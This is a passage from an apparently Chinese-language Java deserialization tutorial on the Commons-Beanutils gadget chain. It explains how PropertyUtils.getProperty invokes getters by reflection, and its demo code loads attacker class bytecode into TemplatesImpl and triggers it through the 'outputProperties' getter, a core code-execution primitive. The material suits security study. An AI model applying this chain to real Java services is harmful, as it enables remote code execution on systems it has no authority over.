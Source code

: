 可以发现他返回了几个属性，恰好就是 setter getter 方法名字

再接着往下就是获取方法的名字，然后去调用 641 行的反射

[![](assets/1709112106-e7e5faf1bff4c22f3949eb9d395fd6db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227202932-dc1334d2-d56b-1.png)

[![](assets/1709112106-c60ee8322851cf64978e00fb1ffb5ede.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227202937-dec0a0a2-d56b-1.png)

所以到这里我们又可以想象`Fastjson`​一样，假设谁的 `PropertyUtils.getProperty`​ 传参是可控的，那么找到一个函数的 getter 是有危险行为的，那么通过 CB 链就可以去触发导致代码执行 (而在 Fastjson 中也是有这种情况发生，所以后半段恶意类加载就可以利用`TemplatesImpl`​链来完成)

我们可以来写一个 demo

```plain
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field facField = tc.getDeclaredField("_tfactory");
        facField.setAccessible(true);
        facField.set(templates, new TransformerFactoryImpl());
        templates.newTransformer();
        System.out.println(PropertyUtils.getProperty(templates, "outputProperties"));
```
